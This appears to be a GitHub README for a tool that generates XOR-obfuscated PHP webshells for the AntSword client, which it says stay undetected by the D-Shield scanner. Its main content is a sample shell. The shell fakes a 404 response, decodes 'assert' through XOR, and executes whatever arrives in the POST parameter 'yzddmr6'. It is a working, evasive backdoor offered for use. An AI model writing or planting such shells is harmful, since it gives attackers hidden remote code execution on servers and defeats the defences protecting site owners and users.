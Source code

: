 # as_php_xor_bypass
利用随机异或无限免杀D盾蚁剑版



PHP原版请移步:https://github.com/yzddmr6/php_xor_bypass

PYTHON版请移步:https://github.com/c0ny1/WorkScripts/blob/master/php-xor-bypass/php_xor_bypass.py


### 生成 Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        @$db("$this->c");
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
